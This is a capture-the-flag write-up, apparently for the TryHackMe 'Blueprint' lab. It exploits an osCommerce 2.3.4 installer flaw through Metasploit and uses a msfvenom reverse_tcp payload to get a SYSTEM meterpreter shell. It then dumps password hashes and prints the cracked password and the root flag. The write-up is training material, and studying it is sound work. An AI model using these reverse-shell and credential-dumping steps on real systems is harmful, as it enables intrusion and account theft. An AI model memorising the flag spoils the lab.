 
### The port 80/443 server revealed nothing, however a visit to the 8080 port address revealed...

> ---> We can see server is using: oscommerce-2.3.4

### I used gobuster with directory-list-2.3-small.txt -> But didn't get any satisfactory result
## Then, I saw in writeup, that they used directory-list-2.3-medium.txt.

```diff
- Then I realised if after searching and enuemerating we don't get anything.

+ Again performed directory bruteforcing with directory-list-2.3-medium.txt file.

```
#### Main direcs in oscommerce-2.3.4:
```diff
+ 1. catalog/
+ 2. docs/
```
#### Main direcs in oscommerce-2.3.4/catalog:

```diff
+ 1. images/Images/IMAGES
+ 2. pub
+ 3. admin
+ 4. includes
+ 5. install/INSTALL
+ 6. ext
```
### We tranversed to admin section, but got nothing

### Then traversed to "_install_/" direc.. and pressed start button

### But it welcomed us with admin:password prompt

# 1. Manual Exploitation:
----------------------

## So,
```diff
@@ WE can now search for exploit in Searchsploit @@
```
#### I found 2 exploits --->
##### 1. 43191.py
##### 2. 44374.py

### We will now create a php reverse shell fro cmd to ***perform  RCE***.

### We executed 44374.py (after changing the ip)

# Failed:

### Refer this:

#### https://www.cybersecpadawan.com/2020/05/tryhackme-blueprint-exploitation-no.html

#### https://cd6629.gitbook.io/oscp-notes/windows-privesc/blueprint-w


# 2. Metasploit:
------------------------------------------------------
```diff
+ msf6> search oscommerce

+  0  exploit/multi/http/oscommerce_installer_unauth_code_exec  2018-04-30       excellent  Yes    osCommerce Installer Unauthenticated Code Execution
+   1  exploit/unix/webapp/oscommerce_filemanager                2009-08-31       excellent  No     osCommerce 2.2 Arbitrary PHP Code Execution

+ msf6> use 0

+ msf6> exploit(multi/http oscommerce_installer_unauth_code_exec) > show options
```
### We will use set:

> set RHOST - http://10.10.134.97/

> set RPORT - 8080

> set URI - The part of the domain which points to the /install page.
>|
>|---> oscommerce-2.3.4/catalog/INSTALL/

> set LHOST - 10.8.112.253

> set LPORT - We can leave this as 4444 (or anything else)

#### Now we perform the exploit:
```
msf6> exploit(multi/http/oscommerce_installer_unauth_code_exec) > exploit 

[*] Started reverse TCP handler on 10.8.112.253:4444 
[*] Sending stage (39282 bytes) to 10.10.134.97
[*] Meterpreter session 1 opened (10.8.112.253:4444 -> 10.10.134.97:49473) at 2021-02-10 21:57:49 +0000

meterpreter > ps
```
### I can't do anything with this shell, lagging and not giving any answer. So,

### 1. Lets create a payload with msfvenom.
### 2. Then execute it to get a shell with prevous meterpreter shell.
### 3. We will open another msf session with **multi handler** module

```diff
+ 1. msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.8.112.253 LPORT=5555 -f exe > shell1.exe
```
### The above payload creation was done in another shell

```diff
+ 2. meterpreter > lls
Listing Local: /home/kali/Desktop/Kali Docs/CTF/THM/Blueprint
=============================================================

Mode              Size   Type  Last modified              Name
----              ----   ----  -------------              ----
100644/rw-r--r--  551    fil   2021-02-10 20:04:49 +0000  ans.md
100644/rw-r--r--  1953   fil   2021-02-10 21:41:12 +0000  oscommerce_44374.py
100644/rw-r--r--  58     fil   2021-02-10 21:14:53 +0000  reverse_shell_for_cmd.php
100644/rw-r--r--  44     fil   2021-02-10 21:43:13 +0000  shell.php
100644/rw-r--r--  73802  fil   2021-02-10 22:07:41 +0000  shell.exe

+ meterpreter > upload shell.exe
[*] uploading  : /home/kali/Desktop/Kali Docs/CTF/THM/Blueprint/shell.exe -> shell.exe
[*] Uploaded -1.00 B of 72.07 KiB (-0.0%): /home/kali/Desktop/Kali Docs/CTF/THM/Blueprint/shell.exe -> shell.exe
[*] uploaded   : /home/kali/Desktop/Kali Docs/CTF/THM/Blueprint/shell.exe -> shell.exe
+ meterpreter > execute -f shell.exe
+ Process 9768 created.
```
### Now opening, another msf session with **multi handler** module
```diff
+ msf6> exploit(multi/handler) > show options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


+ msf6> exploit(multi/handler) > set LHOST  10.8.112.253
LHOST => 10.8.112.253
+ msf6> exploit(multi/handler) > set LPORT 5555
LPORT => 5555
+ msf6> exploit(multi/handler) > set payload windows/meterpreter/rerverse_tcp
- [-] The value specified for payload is not valid.
+ msf6> exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp

+ msf6> exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.8.112.253:5555 
[*] Sending stage (175174 bytes) to 10.10.134.97
[*] Meterpreter session 1 opened (10.8.112.253:5555 -> 10.10.134.97:49514) at 2021-02-10 22:43:09 +0000

+ meterpreter> getuid
Server username: NT AUTHORITY\SYSTEM

+ meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Lab:1000:aad3b435b51404eeaad3b435b51404ee:30e87bf999828446a1c1209ddde4c450:::

***OR***
+ meterpreter > load mimikatz
[!] The "mimikatz" extension has been replaced by "kiwi". Please use this in future.
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x86/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

+ meterpreter > help mimikatz
- [-] No such command
```
### Kiwi didn't work.

```
aad3b435b51404eeaad3b435b51404ee:549a1bcb88e35dc18c7a0b0168631411 :::
|_______________________________| |_____________________________| |__|
               |                               |                   | 
               LM                            NT / NTLM             Mrks the end
```
### To crack the NTLM use only the 2nd last portion.

#### PASS: googleplus

### For root.txt
```
C:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
THM{aea1e3ce6fe7f89e10cea833ae009bee}
```
 
